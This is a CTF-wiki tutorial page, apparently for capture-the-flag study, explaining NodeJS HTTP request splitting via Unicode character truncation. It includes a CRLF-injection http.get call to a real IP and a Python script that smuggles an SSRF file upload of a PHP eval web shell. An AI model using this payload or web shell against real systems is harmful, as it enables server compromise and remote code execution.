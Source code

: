 # NodeJS HTTP 拆分攻击
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/). 



![img](nodejs_unicode字符损坏.assets/t01af324f2b225642c5.png)

## HTTP 请求路径中的 Unicode 字符损坏

虽然用户发出的 HTTP 请求通常将请求路径指定为字符串，但Node.js最终必须将请求作为原始字节输出。JavaScript支持unicode字符串，因此将它们转换为字节意味着选择并应用适当的Unicode编码。对于不包含主体的请求，Node.js默认使用“latin1”，这是一种单字节编码字符集，不能表示高编号的Unicode字符，例如🐶这个表情。所以，当我们的请求路径中含有多字节编码的Unicode字符时，会被截断取最低字节，比如 `\u0130` 就会被截断为 `\u30`

![1](nodejs_unicode字符损坏.assets/1.png)

## Unicode 字符损坏造成的 HTTP 拆分攻击

由于 Nodejs 的 HTTP 库包含了阻止 CRLF 的措施，即如果你尝试发出一个 URL 路径中含有回车、换行或空格等控制字符的 HTTP 请求是，它们会被 URL 编码，所以正常的 CRLF 注入在 Nodejs 中并不能利用![2](nodejs_unicode字符损坏.assets/2.png)

通过在请求路径中包含精心选择的Unicode字符，攻击者可以欺骗Node.js并成功实现CRLF注入。![3](nodejs_unicode字符损坏.assets/3.png)

```
http.get('http://47.101.57.72:4000/\u0120HTTP/1.1\u010D\u010ASet-Cookie:\u0120PHPSESSID=whoami\u010D\u010Atest:').output [ 'GET /ĠHTTP/1.1čĊSet-Cookie:ĠPHPSESSID=whoamičĊtest: HTTP/1.1\r\nHost: 47.101.57.72:4000\r\nConnection: close\r\n\r\n' ]
```

![img](nodejs_unicode字符损坏.assets/t0108dbf556f318ef33.png)

这里需要注意的是使用了一个test：来闭合掉多余的HTTP/1.1

## 在 HTTP 状态行注入完整 HTTP 请求

首先，由于 NodeJS 的这个 CRLF 注入点在 HTTP 状态行，所以如果我们要注入完整的 HTTP 请求的话需要先闭合状态行中 `HTTP/1.1` ，即保证注入后有正常的 HTTP 状态行。其次为了不让原来的 `HTTP/1.1` 影响我们新构造的请求，我们还需要再构造一次 `GET /` 闭合原来的 HTTP 请求。

假设目标主机存在SSRF，需要我们在目标主机本地上传文件。我们需要尝试构造如下这个文件上传的完整 POST 请求

```
payload = ''' HTTP/1.1

POST /upload.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 437
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryjDb9HMGTixAA7Am6
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.72 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=nk67astv61hqanskkddslkgst4
Connection: close

------WebKitFormBoundaryjDb9HMGTixAA7Am6
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
------WebKitFormBoundaryjDb9HMGTixAA7Am6
Content-Disposition: form-data; name="uploaded"; filename="shell.php"
Content-Type: application/octet-stream

<?php eval($_POST["whoami"]);?>
------WebKitFormBoundaryjDb9HMGTixAA7Am6
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundaryjDb9HMGTixAA7Am6--

GET / HTTP/1.1
test:'''.replace("\n","\r\n")

payload = payload.replace('\r\n', '\u010d\u010a') \
    .replace('+', '\u012b') \
    .replace(' ', '\u0120') \
    .replace('"', '\u0122') \
    .replace("'", '\u0a27') \
    .replace('[', '\u015b') \
    .replace(']', '\u015d') \
    .replace('`', '\u0127') \
    .replace('"', '\u0122') \
    .replace("'", '\u0a27') \
    .replace('[', '\u015b') \
    .replace(']', '\u015d') \

print(payload)

# 输出: ĠHTTP/1.1čĊčĊPOSTĠ/upload.phpĠHTTP/1.1čĊHost:Ġ127.0.0.1čĊContent-Length:Ġ437čĊContent-Type:Ġmultipart/form-data;Ġboundary=----WebKitFormBoundaryjDb9HMGTixAA7Am6čĊUser-Agent:ĠMozilla/5.0Ġ(WindowsĠNTĠ10.0;ĠWin64;Ġx64)ĠAppleWebKit/537.36Ġ(KHTML,ĠlikeĠGecko)ĠChrome/90.0.4430.72ĠSafari/537.36čĊAccept:Ġtext/html,application/xhtmlīxml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9čĊAccept-Encoding:Ġgzip,ĠdeflatečĊAccept-Language:Ġzh-CN,zh;q=0.9čĊCookie:ĠPHPSESSID=nk67astv61hqanskkddslkgst4čĊConnection:ĠclosečĊčĊ------WebKitFormBoundaryjDb9HMGTixAA7Am6čĊContent-Disposition:Ġform-data;Ġname=ĢMAX_FILE_SIZEĢčĊčĊ100000čĊ------WebKitFormBoundaryjDb9HMGTixAA7Am6čĊContent-Disposition:Ġform-data;Ġname=ĢuploadedĢ;Ġfilename=Ģshell.phpĢčĊContent-Type:Ġapplication/octet-streamčĊčĊ<?phpĠeval($_POSTśĢwhoamiĢŝ);?>čĊ------WebKitFormBoundaryjDb9HMGTixAA7Am6čĊContent-Disposition:Ġform-data;Ġname=ĢUploadĢčĊčĊUploadčĊ------WebKitFormBoundaryjDb9HMGTixAA7Am6--čĊčĊGETĠ/ĠHTTP/1.1čĊtest:
```

## 流程分析

原始请求数据如下：

```http
GET / HTTP/1.1
Host: 47.101.57.72:4000
```

当我们插入CRLF数据后，HTTP请求数据变成了：

```http
GET / HTTP/1.1

POST /upload.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 437
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryjDb9HMGTixAA7Am6
......
<?php eval($_POST["whoami"]);?>
------WebKitFormBoundaryjDb9HMGTixAA7Am6
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundaryjDb9HMGTixAA7Am6--

 HTTP/1.1
Host: 47.101.57.72:4000
```

上次请求包的Host字段和状态行中的 `HTTP/1.1` 就单独出来了，所以我们再构造一个请求把他闭合：

```http
GET / HTTP/1.1

POST /upload.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 437
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryjDb9HMGTixAA7Am6
......
<?php eval($_POST["whoami"]);?>
------WebKitFormBoundaryjDb9HMGTixAA7Am6
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundaryjDb9HMGTixAA7Am6--

GET / HTTP/1.1
test: HTTP/1.1
Host: 47.101.57.72:4000
```

学习例题：https://www.anquanke.com/post/id/241429#h2-6